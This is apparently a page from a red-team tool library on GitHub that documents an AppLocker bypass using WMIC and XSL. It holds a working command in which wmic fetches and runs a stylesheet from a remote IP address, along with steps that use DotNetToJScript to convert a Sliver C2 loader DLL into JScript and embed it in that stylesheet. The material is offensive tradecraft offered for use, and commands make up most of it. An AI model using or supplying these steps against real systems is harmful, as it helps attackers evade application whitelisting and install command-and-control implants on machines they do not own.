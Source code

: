 # XSL

## GitHub Tool Library Reference

The following is a collection of various AppLocker bypass tools

Main Directory: ToolLibrary/AppLocker-CLM/XSL

***

## XSL - WMIC

using `wmic` process with inline arguments to execute XML Stylesheet Language (XSL) code runner

### References

File Reference: ToolLibrary/AppLocker-CLM/XSL/runner.xsl\
Sliver (dll) runner: ToolLibrary/Compiled/Sliver/SliverLoader-\<arch>.dll\
Payload Generator: \[DevBox] C:\Tools\DotNetToJScript\DotNet2JScript \
Sliver (jscript) runner: ToolLibrary/Compiled/Sliver/Sliver-\<arch>.js

```bash
# utility location
C:\Windows\System32\wbem\wmic.exe

# Basic execution
wmic process get /format:"http://192.168.45.227/runner.xsl"

# Create shellcode into dll; leverage DotNet2JScript and insert .js into line 10:
C:\Tools\DotNetToJScript>DotNetToJScript.exe SliverLoader-<arch>.dll --lang=Jscript --ver=v4 -o runner.js
# Copy contents of runner.js and place into runner.xsl line 10
```
